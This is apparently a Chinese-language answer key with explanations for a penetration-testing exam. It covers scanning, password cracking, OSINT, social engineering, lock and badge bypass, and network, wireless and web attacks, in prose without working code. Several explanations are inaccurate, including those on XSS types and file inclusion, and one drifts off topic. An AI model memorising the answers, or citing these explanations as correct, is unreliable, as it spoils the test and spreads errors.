误接受是指系统错误地将一个生物识别样本判定为匹配。生物识别传感器可能因多种原因出错。识别过程将呈现给系统的生物识别特征（如指纹或虹膜扫描）与数据库中的所有条目进行比对以寻找匹配项。这被称为“一对多”搜索。活体生物特征会因年龄、气候或手指可能的受伤而发生变化。供应商将这些阈值设置称为误接受率 (FAR) 和误拒绝率 (FRR)。

### 153. C 和 E


# 合规性扫描

合规性扫描侧重于应用于系统的配置设置或安全加固措施。当对单个计算系统执行合规性扫描时，会生成一份报告，定义该系统针对所选合规性框架的加固程度。合规性扫描旨在定位和评估系统加固配置中的漏洞，而非旨在定位软件应用程序或操作系统中的漏洞。在此场景中，既然你在网络上看到的资产比网络架构文档中提供的要多，你可以将其归因于有限的网络访问权限或存储访问权限。

## 154. D

SNMP 暴力破解攻击通过 SNMP 查询攻击 IP 地址，以确定 SNMP 只读和读写团体字符串（或密码）。它通过尝试每个可能的密码来实现这一点。由 SNMP 创建的主管理信息库（`MIB`）数据库包含网络上每个设备的重要信息。如果测试人员能破解 SNMP 密码，他们可能能够控制每个联网设备。这将允许从更改配置到使设备离线的操作。

## 155. A

字典攻击是一种通过将字典中的每个单词作为密码彻底输入，来破解受密码保护的计算机或服务器的方法。字典攻击之所以有效，是因为许多计算机用户使用普通单词作为密码。字典攻击依赖于预构建的单词字典。在许多情况下，渗透测试人员可以根据知识向字典文件添加额外的特定字典条目，以用于他们的渗透测试，这在执行字典攻击时非常有益。在此场景中，渗透测试人员使用社交媒体查找可能有利于字典攻击的额外关键字。

## 156. C

在此场景中，由于客户的员工使用字典单词作为密码，最好的防御方法是增加密码长度并添加特殊字符。密码中使用的特殊字符是标准美式键盘上存在的一系列标点字符。这些包括 `!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~`。这将使攻击者更难闯入客户的系统。

## 157. C

完整扫描将提供更有用的结果，因为它包含更多测试。场景中没有要求测试人员应避免被检测，因此隐蔽扫描不是必需的。但因为这是黑盒测试，最好在网络上运行完整扫描。

## 158. D

被动扫描是一种漏洞检测方法，它依赖于从目标计算机捕获的网络数据中获得的信息，无需直接交互。被动扫描对攻击者的主要优势是它不会留下可能提醒用户或管理员的痕迹。对管理员的主要优势是它不会导致目标计算机上出现不良行为。被动扫描确实有局限性。它不如主动漏洞扫描详细，并且无法检测当前未发送流量的任何应用程序。

## 159. A

凭据扫描是指扫描计算机在被扫描的计算机上拥有一个账户，允许扫描程序进行更彻底的检查，查找从网络中可能看不到的问题。凭据扫描广泛用于企业漏洞管理计划中，是在执行渗透测试时的有用工具。凭据扫描可能访问操作系统、数据库和应用程序。凭据扫描通常仅从目标服务器检索信息，而不对服务器本身进行更改。

## 160. B

误报是在某些评估过程中出现的错误，即误将测试的条件判定为已被检测到。扫描程序可能没有足够的访问权限来确认目标系统上的漏洞，或者它可能只是插件中存在生成错误漏洞报告的错误。当扫描程序报告一个不存在的漏洞时，这被称为 `false positive error`。

## 161. D

当目标平台位于不同架构上时，使用交叉编译代码。测试人员可能无法在目标机器上访问编译器，或者可能需要从主工作站编译用于漏洞利用的代码，而主工作站的架构与目标不同。

## 162. A and B

彩虹表通过执行查找而不是尝试使用暴力破解，提供了一种攻击哈希密码的强大方式。彩虹表是给定密码要求集合下每个可能密码的预计算列表，然后根据已知的哈希算法（如 `MD5`）进行哈希处理。彩虹表用于反向攻击哈希密码。彩虹表通常仅是离线攻击。它比任何其他形式的攻击使用更少的计算周期。暴力破解攻击是通过试错方法尝试破解密码或用户名，攻击者提交许多密码或短语，有机会最终正确猜中密码。

## 163. A

彩虹表是给定密码规则集下所有可能密码的预计算哈希列表。彩虹表工具将哈希与之前计算的哈希进行比较，后者匹配已知的密码值。这是通过相当快的数据库查找完成的，允许“破解”哈希密码，即使哈希是不可逆的。密码文件是哈希值的列表。

## 164. D

开源情报（`OSINT`）工具和技术是那些浏览公开可用信息以获取组织和技术细节的工具和技术，这些细节可能在渗透测试期间证明有用。`OSINT` 是可以轻松收集的信息。`OSINT` 通常用于确定组织的足迹，其中包括组织拥有的所有系统、网络和其他技术的列表。

## 165. B

`Nessus` 是一款商业漏洞扫描工具，用于扫描各种设备，不属于可用于 `OSINT` 收集的工具。有各种工具协助这种 `OSINT` 收集：

*   **Censys** 是一个基于 Web 的工具，它探测互联网上的 IP 地址，然后通过搜索引擎为渗透测试人员提供对该信息的访问。
*   **Fingerprinting Organizations with Collected Archives (FOCA)** 是一个开源工具，用于在 Microsoft Office 文档、PDF 和其他常见文件格式中查找元数据。
*   **Maltego** 是一款商业产品，协助可视化从 `OSINT` 工作中收集的数据。
*   **Nslookup** 工具有助于识别与组织关联的 IP 地址。
*   **Recon-ng** 是一个模块化的 Web 侦察框架，用于组织和管理 `OSINT` 工作。
*   **Shodan** 是一个专门的搜索引擎，从公开来源提供对易受攻击的物联网（`IoT`）设备的发现。
*   **theHarvester** 搜刮搜索引擎和其他资源，以查找电子邮件地址、员工姓名和组织的基础设施详细信息。
*   **Whois** 工具从公共记录中收集关于域名所有权的信息。

## 166. B

计算机应急响应小组（`CERT`）专注于安全漏洞和拒绝服务事件，提供警报、事件处理和避免指南。`CERT` 还开展持续的公众意识宣传活动，并从事旨在改进安全系统的研究。

## 167. A

通用攻击模式枚举和分类（`CAPEC`）列表是一种资源，旨在帮助识别和记录攻击及攻击模式。用户可以按其机制或领域搜索攻击，然后按各种属性和先决条件分解每个攻击。`CAPEC` 还建议解决方案和缓解措施，这在编写渗透测试报告时识别控制措施很有用。

## 168. D

在渗透测试期间，测试人员可能希望将其扫描配置为作为隐蔽扫描运行，隐蔽扫描极力避免使用可能引起注意的测试。由扫描引起的服务中断、错误消息和日志条目可能会引起网络安全团队的注意，导致他们以阻碍渗透测试的方式调整防御。使用隐蔽扫描更好地模拟了熟练攻击者的活动，从而导致更真实的渗透测试。

# 第 3 章：攻击与漏洞利用

## 1. A

在此场景中使用了网络钓鱼攻击，因为恶意邮件被无差别地发送给了组织内的所有员工。

## 2. C

在此场景中使用了鱼叉式网络钓鱼攻击，因为恶意邮件是专门为特定员工精心制作的。相比之下，普通的网络钓鱼攻击会被无差别地发送给组织内大量员工。

## 3. D

鲸钓攻击本质上是一种鱼叉式网络钓鱼攻击，专门针对 C 级高管，如 `CEO`、`CFO`、`COO`、`CIO` 等。相比之下，标准的鱼叉式网络钓鱼攻击则会发送给组织内的低级别员工。

## 4. B

在此场景中使用了短信钓鱼攻击（也称为 `smishing` 攻击）。`Smishing` 攻击利用短信而非电子邮件来实施网络钓鱼攻击。

## 5. B

在此场景中使用了语音钓鱼攻击（也称为 `vishing` 攻击）。`Vishing` 攻击利用电话而非电子邮件来实施网络钓鱼攻击。本质上，攻击者致电特定员工，冒充他人以获取信息。

## 6. D

审讯涉及对目标组织的员工进行质询，利用恐惧作为动机来收集信息。审讯通常不是渗透测试人员使用的技术。

## 7. A

冒充是一种社会工程学技术，渗透测试人员可用其获得对目标设施的物理访问权限。在此场景中，前台接待员允许测试人员进入组织设施，因为测试人员看起来来自受信任的供应商。

## 8. A 和 E

冒充是一种社会工程学技术，渗透测试人员可用其获得对目标设施的物理访问权限。在此场景中，前台接待员允许测试人员进入组织设施，因为测试人员看起来来自受信任的供应商。测试人员还使用了诱导技术从员工那里收集敏感信息。

## 9. A 和 C

冒充是一种社会工程学技术，渗透测试人员可用其获得对目标设施的物理访问权限。在此场景中，前台接待员允许测试人员进入组织设施，因为测试人员看起来来自受信任的供应商。测试人员还使用了肩窥技术从员工那里收集敏感信息。

## 10. C 和 E

冒充是一种社会工程学技术，渗透测试人员可用其获取目标组织员工的信任。在此场景中，员工信任测试人员，因为邮件看起来是来自另一位员工。测试人员利用这种信任从这些员工那里诱导出敏感信息。这有时被称为 `business email compromise`（商务电子邮件入侵）。

## 11. B

在 USB 钥匙投放攻击中，通常会将某种恶意软件加载到闪存驱动器上。然后将该驱动器故意遗放在目标组织员工可能发现的地方。目标是诱使员工插入驱动器查看其内容。一旦插入，恶意软件就会自动加载到受害者的计算机上。

## 12. A

在标准的网络钓鱼攻击中，电子邮件会被无差别地发送给大量个人，希望其中一定比例的人会点击消息中包含的恶意链接。

## 13. C

短信钓鱼攻击（也称为 `smishing` 攻击）利用短信而非电子邮件来实施网络钓鱼攻击。

## 14. A

语音钓鱼攻击（也称为 `vishing` 攻击）利用电话而非电子邮件来实施网络钓鱼攻击。本质上，攻击者致电特定员工，冒充他人以获取信息。

## 15. A 和 D

鱼叉式网络钓鱼和鲸钓攻击都要求渗透测试人员进行广泛的调查研究，以识别组织内的高价值目标个人。

## 16. A

审讯涉及对目标组织的员工进行质询，利用恐惧作为动机来收集信息。渗透测试人员通常不使用审讯技术，因为这可能导致测试人员面临刑事指控以及民事诉讼。

## 17. B 和 D

冒充是一种社会工程学技术，渗透测试人员可用其获得对目标设施的物理访问权限。在此场景中，前台接待员允许测试人员进入组织设施，因为测试人员看起来来自受信任的供应商。测试人员还使用了 USB 钥匙投放攻击，希望用户将闪存驱动器插入计算机并安装其中包含的恶意软件。

## 18. C

渗透测试人员在此场景中使用了肩窥技术。在肩窥中，测试人员观察员工在计算机上输入或显示的信息，试图收集敏感信息。例如，测试人员可能利用肩窥收集用户名、密码、电子邮件地址、电话号码、文件服务器共享名称等。

## 19. D 和 E

渗透测试人员在此场景中使用了肩窥和商务电子邮件入侵技术。在肩窥中，测试人员观察员工在计算机上输入或显示的信息，试图收集敏感信息。在本例中，测试人员利用肩窥获取了员工的电子邮件用户名和密码。随后，测试人员利用被攻陷的账户从其他员工那里收集信息。这被称为商务电子邮件入侵。

## 20. B

这是一个诱导的例子。通过获取员工的信任，测试人员能够从他们那里诱导出关于其雇主的敏感信息。

## 21. A

通过伪装成高层管理人员，本例中的渗透测试人员利用诉诸权威手段，胁迫员工泄露敏感信息。

## 22. D

通过伪装成 FBI 特工，本例中的渗透测试人员利用权威（以及可能的恐惧）作为动机因素，胁迫员工泄露敏感信息。

## 23. B

通过在此场景中伪装成处于极度痛苦中的同事，渗透测试人员利用紧迫感促使员工交出用户名和密码。她可能也在利用好感度作为因素。

## 24. A

渗透测试人员正在使用社会认同作为激励因素。由于似乎有超过 1,000 人在该网站有过积极体验，大多数员工可能会信任该网站，即使它要求他们泄露敏感信息。

## 25. D

渗透测试人员正在使用稀缺性作为激励因素。通过断言以大幅折扣价出售的设备数量极少，员工受到激励，在供应耗尽前进行购买。

## 26. D

渗透测试人员正在使用好感度/相似性作为激励因素。通过雇佣年轻、友好且外貌吸引人的助手，渗透测试人员能够胁迫目标组织的员工泄露关于其雇主的敏感信息。

## 27. A

渗透测试人员正在使用恐惧作为激励因素。无论该说法是否属实，`CFO` 都知道此类揭露可能损害其家庭和事业，也可能使其面临起诉。这可能会促使他泄露敏感信息。

## 28. C

渗透测试人员正在使用权威（以及可能的紧迫感和恐惧）作为激励因素。销售代表可能倾向于创建 `VPN` 连接，以防止所谓的重要客户流失。

## 29. B

渗透测试人员将紧迫感（可能还有好感度）作为激励因素。员工可能会出于想被视为“团队一员”的愿望而遵从请求。通过事先进行侦察并识别出为该组织工作的真实销售代表姓名，可以使这种攻击更加有效。

## 30. A 和 B

渗透测试人员在此示例中使用了两个激励因素：紧迫感和社会认同。因为订单量巨大，员工可能会感到紧迫而遵从。渗透测试人员还通过提及一位熟悉的同事名字来利用社会认同，这可能会让员工更放心地提供用户名和密码。

## 31. C

当人们认为他们想要的东西供应有限时，会被激励迅速采取行动。这被称为**稀缺性**。他们不想错过即将变得不可用的机会、产品、交易或服务。

## 32. A

如果人们认为其他人都在做同一件事，他们就会被激励去行动。这被称为**社会认同**。其（有缺陷的）假设是：如果其他人都在做某事，那一定是正确的事。

## 33. C

人们天生就会因对权威的尊重而被激励。当他们相信权威人士希望他们做某事时，通常会服从，尤其是当请求伴随着紧迫感时。

## 34. B

许多人天生就有帮助处于困境中他人的动机。这被称为**紧迫感**。当他们相信有人需要帮助时，可能会违背或打破规则来提供帮助。

## 35. A

大多数人会帮助他们视为朋友的人。这被称为**好感度**。当他们相信朋友需要帮助时，可能会违背或打破规则来提供帮助。

## 36. B

如果人们因不采取行动的后果而感到恐惧，大多数人会对行动请求做出回应。这是最基本的人类动机之一。

## 37. A

**搭便车**是指入侵者在授权人员不知情或未经其同意的情况下，跟随其通过物理屏障（如锁门或闸机）。

## 38. B

**尾随**是指入侵者在授权人员知情和/或同意的情况下，跟随其通过物理屏障（如锁门或闸机）。

## 39. A

**搭便车**是指入侵者在授权人员不知情或未经其同意的情况下，跟随一名或多名授权人员通过物理屏障（如锁门或闸机）。

## 40. D

**翻越围栏**是指未经授权的人员直接跳过用于控制访问的物理屏障。在此场景中，渗透测试人员直接跨过了设计用于阻止未经授权人员进入的闸机。

## 41. A

**翻垃圾桶**是指攻击者搜寻目标组织的垃圾，寻找敏感信息。

## 42. A

由于服务器机房由相对不复杂的锁具保护，假设渗透测试人员具备必要的开锁技能，他可以通过撬锁获得访问权限。注意，这必须在没有监控或人员走动的区域进行，因为可能需要一些时间才能完成。

## 43. B

**绕过锁具**是指攻击者阻止门的锁具机制工作。例如，可以通过在锁舌上贴胶带来实现，正如本场景所做的那样。

## 44. D

**出口传感器绕过**是指攻击者操纵出口传感器以解锁门。在此场景中，压缩空气罐喷出的流动冷空气比周围空气更冷、更密集，导致出口传感器误以为有人正在离开大楼，从而解锁了门。

## 45. C

**工牌克隆**是指攻击者复制有效的访问工牌以进入设施。通过复制有效工牌的 `RFID` 签名，本场景中的渗透测试人员可以使用伪造工牌，凭借授权员工的凭证访问目标组织的设施。

## 46. B

**尾随**是指入侵者在授权人员知情和/或同意的情况下，跟随其通过物理屏障（如锁门或闸机）。在本例中，授权员工为渗透测试人员扶住了门。

## 47. A

**搭便车**是指入侵者在授权人员不知情或未经其同意的情况下，跟随一名或多名授权人员通过物理屏障（如锁门或闸机）。

## 48. D

**翻越围栏**是指未经授权的人员跳过或切割用于控制访问的物理屏障。在此场景中，测试人员通过在围栏上剪开一个洞来突破物理围栏屏障。

## 49. A

**翻垃圾桶**是指攻击者搜寻目标组织的垃圾，寻找敏感信息。

## 50. C 和 D

至少需要扳手和开锁工具才能撬锁。扳手用于向锁施加旋转压力（朝解锁方向）。开锁工具用于释放锁内的每个锁芯。

## 51. B

**绕过锁具**是指攻击者阻止门的锁具机制工作。在本例中，这是通过在门框中放置木楔实现的，防止门完全关闭，从而阻止锁具机制啮合。

## 52. A

大多数自动锁门系统都有某种紧急故障开放机制。其理念是：如果发生火灾等紧急情况，门必须自动解锁，以防止人员被困在内部或阻止应急人员进入。如果你能弄清楚使用的是哪种故障开放机制，可能就能手动触发它来打开锁门。

## 53. B 和 D

在此场景中，使用翻垃圾桶找到了丢弃的访问工牌，然后使用工牌克隆制作了假工牌。

## 54. D

**工牌克隆**是指攻击者复制有效的访问工牌以进入设施。通过复制有效工牌的 `RFID` 签名，本场景中的渗透测试人员可以使用伪造工牌，凭借授权员工的凭证访问目标组织的设施。因为他精心挑选了高级别员工的工牌进行克隆，所以他可能能够访问设施中更敏感的区域。

## 55. A

**NetBIOS** 是 Windows 系统用于共享资源（如共享文件夹或打印机）的传输协议。一旦攻击者识别出设备上的端口 139 处于开放状态，就可以使用 `NBTSTAT` 对设备进行指纹识别。例如，你可以发现设备的计算机名称，并确定它是工作站还是服务器。所有这些信息都可以在无需任何身份验证的情况下收集。

## 56. A

`NBTSTAT` 使用 ID `<20>` 标识 NetBIOS 服务器。根据此输出，你知道 `DEV-1` 很可能是一台 Windows 服务器（或运行 Samba 服务的 Linux 服务器）。

## 57. B

`NBTSTAT` 使用 ID `<00>` 标识 NetBIOS 工作站。根据此输出，你知道 `PROD-9` 很可能是一台 Windows 工作站（或运行 Samba 服务的 Linux 工作站）。

## 58. A 和 E

`LLMNR` 协议松散地基于 DNS 数据包格式，允许 IPv4 和 IPv6 主机在没有 DNS 服务器的情况下，对同一本地网络上的其他主机执行名称解析。它受 Windows 和 Linux 主机支持。

# 网络协议与攻击技术题库解析

## 59. B and C

`LLMNR` 协议存在许多可在渗透测试中利用的安全漏洞。例如，它缺乏身份验证等安全控制。因此，网络上的恶意主机可以将自己宣传为任意主机。

## 60. A and C

服务器消息块（`SMB`）协议用于在网络主机之间共享文件和打印机。

## 61. D and E


`EternalBlue` 和 `WannaCry` 漏洞利用均由 `SMB` 协议的弱点促成。`EternalBlue` 利用了 `SMBv1` 对恶意数据包处理不当的缺陷，允许攻击者在运行 `SMB` 协议的系统上远程执行恶意代码。`WannaCry` 是一种勒索软件，它利用 `EternalBlue` 访问易受攻击的系统并安装自身。

## 62. C and E

`SMB` 协议使用 `TCP` 端口 `139` 和 `445`。开放这两个端口的系统极有可能是运行 `SMB` 的 `Windows` 主机，或运行 `Samba`（`SMB` 服务的开源实现）的 `Linux` 主机。

## 63. A and B

`SNMPv1` 是一种较旧的协议，它使用团体字符串的概念而非密码。同一个团体字符串用于网络中每台 `SNMPv1` 主机的身份验证。按照惯例，大多数 `SNMPv1` 管理员将团体字符串设置为 `public`。即使使用唯一的团体字符串，也容易被发现，因为它在网络上以明文形式传输。

## 64. A

`SNMP` 协议运行在 `UDP` 端口 `161` 上。

## 65. B

`SMTP` 协议用于在邮件传输代理（`MTA`）之间传输电子邮件。

## 66. B

利用开放的 `SMTP` 服务发送未授权的电子邮件称为 `SMTP` 中继。大多数新系统都有防止此情况发生的措施，但许多旧服务器系统没有。

## 67. A

利用开放的 `SMTP` 服务发送未授权电子邮件的一种方法是：使用 `Telnet` 客户端连接到 `SMTP` 服务器的 `IP` 地址的 `25` 端口。连接建立后，可使用命令行界面创建并发送邮件。

## 68. A and B

默认情况下，`FTP` 服务器使用两个端口：`20` 和 `21`。端口 `20` 用于在 `FTP` 服务器和 `FTP` 客户端之间传输数据。端口 `21` 用于在 `FTP` 客户端和 `FTP` 服务器之间发送命令。

## 69. C

`FTP` 协议的一个关键弱点是：它以明文形式传输 `FTP` 服务器和 `FTP` 客户端之间的所有数据，包括身份验证凭据。通过嗅探 `FTP` 流量，可能捕获 `FTP` 用户名和密码。某些 `FTP` 服务器实现利用现有的网络用户账户和密码来验证 `FTP` 连接。因此，捕获 `FTP` 身份验证凭据可能意味着同时捕获了内部网络用户账户和密码。

## 70. A

这是一个 `DNS` 投毒示例。该漏洞利用利用了用户对看似有效的 `URL` 的信任。因为用户输入的是有效 `URL`，他们毫不知情正在遭受攻击。然而，`DNS` 服务器已被重新配置，将 `URL` 中的域名解析为恶意服务器的 `IP` 地址。

## 71. A

防御 `DNS` 投毒的一种方法是实施 `DNSSEC`。`DNSSEC` 使用数字签名对每个 `DNS` 请求进行签名以确保真实性。这使得插入毒化记录变得困难。

## 72. C

这是一个 `DNS` 缓存投毒示例。渗透测试人员没有攻击受严重保护的 `DNS` 服务器，而是攻击相对不安全的工作站上的 `DNS` 缓存。最终效果相同。恶意软件是 `DNS` 缓存投毒攻击的常见传播载体。

## 73. C

这也是一个 `DNS` 缓存投毒示例。场景中不是毒化工作站上的本地 `DNS` 缓存，而是毒化了仅缓存 `DNS` 服务器的缓存。毒化记录将保留在缓存中，直到达到 `TTL` 值。

## 74. D

这是一个传递哈希攻击示例。在此攻击中，测试人员捕获哈希后的 `NTLM` 用户凭据，随后重用它们在稍后时间向 `Windows` 系统进行身份验证。因为 `NTLM` 身份验证使用哈希凭据，测试人员不需要知道受害者的实际用户名和密码。哈希凭据足以创建新的经过身份验证的会话。

## 75. B

这是一个 `ARP` 欺骗示例。在此攻击中，测试人员在网段上发送伪造的 `ARP` 广播，将合法网络主机的 `IP` 地址映射到她的 `MAC` 地址。结果，发往合法主机的所有流量都被重定向到测试人员的系统。

## 76. B

`ARP` 欺骗攻击被归类为中间人攻击。

## 77. D

这是一个重放攻击示例。测试人员从无线网络捕获有效的握手数据，随后重放它以将其笔记本电脑向无线网络进行身份验证。

## 78. D

重放攻击也被归类为中间人攻击。

## 79. A

这是一个中继攻击示例。攻击者位于网络上通信的两台主机之间（本例中为工作站和服务器）。对服务器而言，攻击者伪装成工作站；对工作站而言，攻击者伪装成服务器。

## 80. A

这也是一个中继攻击示例。攻击者位于网络上通信的两台主机之间（本例中为工作站和服务器）。对服务器而言，攻击者伪装成工作站；对工作站而言，攻击者伪装成服务器。在中继攻击中，中间人可能会也可能不会修改在两台主机之间传输的数据。

## 81. A

在 `SSL` 剥离攻击中，用户向 `Web` 服务器发送 `HTTPS` 请求。这是为了确保服务器和浏览器之间的通信加密。然而，该漏洞利用欺骗 `Web` 服务器，使其认为用户想要标准的 `HTTP` 连接，从而建立未加密的会话。除非用户仔细观察，否则可能不会意识到这一点。

## 82. C

防御 `SSL` 剥离攻击的最佳方法是实施 `HTTP` 严格传输安全（`HSTS`）策略，防止用户的浏览器在未使用 `HTTPS` 连接将网页从 `Web` 服务器传输到客户端的情况下打开网页。

## 83. B

在此示例中，发生了降级中间人攻击，因为 `SSL 2.0` 比 `TLS 1.2` 安全性更低。除非用户异常警惕，否则他们可能不会注意到会话使用 `SSL` 而非 `TLS` 进行保护。

## 84. A

通过发送伪造的 `ARP` 消息，测试人员的工作站可以欺骗客户端工作站，使其认为它是 `Web` 服务器（将服务器的 `IP` 地址与其工作站的 `MAC` 地址关联）。同样，通过发送伪造的 `ARP` 消息将客户端的 `IP` 地址映射到其工作站的 `MAC` 地址，服务器也会被欺骗，认为其工作站是最终用户的工作站。

## 85. A

通过向服务器发送大量永远无法完成的半开放 `TCP` 连接，测试人员导致服务器没有足够资源服务合法网络请求。因为仅使用一台主机进行压力测试，这是标准拒绝服务（`DoS`）攻击的示例。

## 86. B

通过向路由器发送大量虚假 `ICMP` 流量，测试人员使路由器难以服务合法网络请求。因为使用多台主机进行压力测试，这是标准分布式拒绝服务（`DDoS`）攻击的示例。

## 87. A. 网络准入控制 (NAC) 系统

网络准入控制 (NAC) 系统要求网络主机在被允许访问网络之前必须满足安全策略要求，即使它们已正确连接到网络端口或已与接入点关联。未经授权或不健康的设备通常会被置于隔离的修复网络中，直到它们被授权或符合合规要求。之后，它们才被允许连接到实际的网络段。

## 88. B. NAC 绕过漏洞利用

实施 NAC 绕过漏洞利用的一种方法是使用授权设备的 `MAC` 地址欺骗测试人员的系统。只要测试人员的系统满足组织安全策略要求，NAC 系统就应允许其访问生产网络。

## 89. D 和 E. VoIP 电话和 SCADA 设备

`VoIP` 电话和 `SCADA` 设备通常无法通过配置来满足 NAC 系统的安全策略要求。例如，通常无法在 `VoIP` 电话或 `SCADA` 设备上安装反恶意软件。因此，这些系统通常在 NAC 实施中被加入白名单，允许它们绕过应用于其他系统的要求。

## 90. A. VLAN 双重标记

`802.1q` 规范允许 VLAN 标记的双重标记。这允许主机在 VLAN 之间“跳跃”。

## 91. C. 交换机欺骗漏洞利用

这是一个用于 VLAN 跳跃的交换机欺骗漏洞利用示例。在交换机欺骗漏洞利用中，测试人员的网卡被重新配置为模拟网络交换机上的中继端口。这样做会让真实的交换机认为它需要将来自所有 VLAN 的流量转发到测试人员的设备。

## 92. A. Karma 攻击

在 Karma 攻击中，测试人员使用特殊的无线设备监听其他设备的 `SSID` 请求，然后像受请求的接入点一样进行响应。受害者以为他们连接到了合法网络，但实际上他们直接连接到了测试人员。测试人员通常会将受害者的流量转发到互联网，因此一切看起来都很正常。这使得测试人员能够检查受害者的流量并捕获敏感信息。

## 93. B 和 C. 邪恶双生攻击

在典型的邪恶双生攻击中，测试人员首先发起取消认证攻击，将受害者的无线设备从真实网络断开。这些设备随后会自动重新连接到测试人员配置了与目标组织相同 `SSID` 的无线接入点。测试人员可能会增大邪恶双生接入点的无线电增益，因为大多数无线网络接口默认会连接信号最强的接入点。

## 94. D. 无线分片攻击

在无线分片攻击中，从捕获的数据包中提取少量密钥材料。然后，向接入点发送一个内容已知的 `ARP` 数据包。如果该数据包被 AP 回显，则可以从返回的数据包中获得更多密钥信息。如果这个过程反复进行，整个无线密钥就会被暴露。

## 95. B. 凭据收集攻击

在凭据收集攻击中，一个外观类似合法网站的虚假网站被用来捕获受害者的用户名和密码。在无线漏洞利用的背景下，这可以通过一个外观类似合法捕获门户的虚假捕获门户来实现，从而捕获受害者的信息。

## 96. D. Wi-Fi Protected Setup (WPS) 弱点

许多无线设备使用 Wi-Fi Protected Setup (WPS) 系统以使连接无线网络更加容易。然而，大多数 WPS 实现都有一个关键弱点，即它们使用简单的八位数字 PIN 来认证无线设备。由于其长度较短，PIN 可以被相当快地破解，从而允许渗透测试人员轻松连接到目标无线网络。

## 97. C. 蓝杰克攻击

在蓝杰克无线漏洞利用中，未经请求的消息通过蓝牙连接发送到无线设备，例如手机。

## 98. B. 蓝斯纳夫攻击

在蓝斯纳夫无线漏洞利用中，与无线设备（例如手机）建立未经授权的蓝牙连接。然后利用该连接从该设备窃取信息。

## 99. D. RFID 克隆

在 RFID 克隆中，渗透测试人员从合法的 RFID 设备捕获 RFID 签名，然后将其复制到伪造设备上。这通常用于复制 RFID 门禁卡。

## 100. D. 干扰攻击

在干扰攻击中，渗透测试人员在 `2.4 GHz` 和/或 `5 GHz` 频段传输功率足够大的无线电信号，以干扰合法的无线信号。这种干扰阻止用户使用无线网络。因此，这种漏洞利用可被归类为网络压力测试或拒绝服务攻击。

## 101. B. 重放攻击

在重放攻击中，渗透测试人员捕获目标组织的无线网络无线电信号，并以高增益重新广播以扩大其范围。在这种情况下，渗透测试人员现在可以从停车场访问该组织的无线网络。

## 102. A. SQL 注入攻击

这是一个 SQL 注入攻击示例。测试人员没有在密码字段中输入密码，而是插入了一条 SQL 语句。如果此示例中的 Web 应用程序编写得很糟糕，则它可能会从假设的数据库中提取每个用户的用户名和密码。`UNION SELECT` 语句用于组合两个不相关的 `SELECT` 查询，以从不同的数据库表中检索数据。编写良好的应用程序将使用输入验证来防止 SQL 语句在用户表单中被提交。相同的原则适用于 HTML 注入、命令注入和代码注入攻击。

## 103. A. 凭据暴力破解攻击

这是一个凭据暴力破解攻击示例。在真正的暴力破解攻击中，所有可能的字母、数字和特殊字符组合都会被依次尝试，直到找到正确的组合。然而，通过根据用户的个人兴趣创建可能的密码列表，成功的概率会大大增加。

## 104. B. 会话劫持

这是一个会话劫持示例。测试人员利用会话密钥（Cookie）获得了对用户会话的访问权限。这种类型的漏洞利用可用于使用 HTTP Cookie 维护会话的 Web 应用程序。即使站点可能使用了 TLS/SSL 来加密认证凭据，会话 Cookie 很多时候是未加密的。如果被捕获，它允许测试人员劫持用户的会话。

## 105. C. 重定向攻击

这是一个重定向攻击示例，因为用户通过钓鱼邮件被重定向到一个虚假网站。

## 106. C. 默认凭据攻击

这是一个默认凭据攻击示例。大多数网络设备，包括接入点、路由器、防火墙等，出厂时都预配置了默认管理凭据。这些默认值在互联网上有详细文档记录。如果管理员忘记更改它们，测试人员就可以使用它们获得设备的管理访问权限。

## 107. A. 弱凭据漏洞利用

该设备容易受到弱凭据漏洞利用，因为管理用户名和密码很容易被猜到。

## 108. D. Kerberos 漏洞利用

这是一个 Kerberos 漏洞利用示例。接收票据授予票据 (TGT) 允许用户获取额外的票据授予服务 (TGS) 票据，从而授予对特定网络服务的访问权限。因为它允许用户获取其他 TGS 票据，TGT 有时被称为 `golden ticket`。因为 TGS 票据只能用于访问特定的网络服务，它有时被称为 `silver ticket`。

## 109. A 和 B. 参数污染和不安全的直接对象引用

在参数污染漏洞利用和不安全的直接对象引用漏洞利用中，渗透测试人员通过修改 HTTP 请求中的参数来获得对信息的未授权访问。例如，在通过身份验证登录 Web 应用程序后，测试人员可以修改 URL 中的 `/search?q=` 参数，欺骗应用程序提供用户账户不应看到的信息。

## 110. D

在 DOM XSS 攻击中，攻击者利用受害者 Web 浏览器中的弱点。通常，过时的浏览器最容易受到此类攻击。这被视为一种客户端 XSS 攻击。

## 111. A 和 B

存储型/持久型和反射型 XSS 攻击都被视为服务端攻击，因为恶意脚本嵌入在服务器上。当用户查看网页时，恶意脚本运行，允许攻击者捕获信息或执行其他操作。

## 112. B

这是一个跨站请求伪造（CSRF）的示例。由于网站的会话 Cookie 保存在本地，用户会持续处于登录状态。因此，电子邮件中包含的更改用户密码的 HTTP 请求无需身份验证即可执行。渗透测试人员现在可以作为高级员工登录 Active Directory。

## 113. C

在点击劫持攻击中，测试人员向网页添加透明层，试图诱使用户点击透明层上的隐藏按钮或链接。这允许测试人员劫持用户点击并将其发送到其他网站（如凭据收集站点）。

## 114. A

如果 Web 服务器的配置中允许了目录遍历，则可能会将 Web 服务器的文件系统暴露给通过 Web 浏览器访问站点的用户，包括 Web 服务器根目录之外的目录。例如，Apache Web 服务器可以在 `chroot` 监狱中运行，以防止用户访问 Web 服务器目录之外的目录。

## 115. B

Cookie 操纵是一种客户端安全配置错误，它允许在浏览器中运行的脚本将数据写入客户端 Cookie。

## 116. C 和 E

文件包含是一种允许测试人员将文件（通常包含恶意代码）上传到 Web 应用程序的攻击。该文件可以是本地的，也可以位于远程网站上。这实际上是一种注入攻击，正如任何注入攻击一样，Web 应用程序开发人员的输入验证是防止它的关键。

## 117. A 和 E

虽然注释应用程序的源代码是程序员的最佳实践，但它也可能造成安全漏洞，因为它为查看源代码的攻击者（或渗透测试人员）提供了关于应用程序如何工作的大量信息。同样，提供过于详细的错误消息可能是在编程应用程序时的最佳实践，但在发布的应用程序中保留它们可能会为攻击者提供有价值的信息。

## 118. C 和 D

程序员应确保包含例程，告诉应用程序在遇到错误条件时该做什么。例如，许多缓冲区溢出攻击利用的是那些不知道如何响应接收到超出预期信息的应用程序。同样，所有应用程序都应对其代码进行数字签名。这将暴露对代码所做的任何未经授权的修改。

## 119. D

此场景中的程序员使用了硬编码凭据。如果攻击者（或渗透测试人员）查看应用程序的源代码，他们将获得数据库身份验证凭据。

## 120. C

此场景中的程序员在 HTML 代码中使用了隐藏元素。这是一种不安全的编码实践，可能导致敏感信息存储在用户的浏览器（DOM）中。

